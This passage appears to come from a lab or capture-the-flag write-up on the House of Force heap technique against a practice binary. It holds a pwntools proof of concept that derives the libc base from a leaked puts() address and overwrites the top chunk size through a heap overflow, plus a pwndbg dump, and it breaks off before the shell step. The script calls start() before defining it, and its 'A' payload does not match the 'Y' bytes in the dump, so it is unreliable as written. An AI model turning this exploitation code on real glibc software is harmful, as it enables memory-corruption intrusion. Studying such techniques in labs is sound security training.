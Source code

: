 The binary leaks the address of libc `puts` and the heap base address for simplicity. It is linked to GLIBC 2.28, so we can use the HOF technique.

After some time playing with the binary, it seems that there's a heap overflow when using the malloc functionality. Here's a quick proof of concept showing an override of the top chunk:

```python
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = elf.libc

io = start()

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send("1")
    io.sendafter("size: ", f"{size}")
    io.sendafter("data: ", data)
    io.recvuntil("> ")

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("> ")

malloc(24, b"A"*24 + p64(0xffffffffffffffff))

io.interactive()
```

```bash
pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000021	........!.......
0x603010	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x603020	0x5959595959595959	0xffffffffffffffff	YYYYYYYY........ <-- Top chunk

```

What's left to do now is to get a shell by interrupting the program flow, easy right?
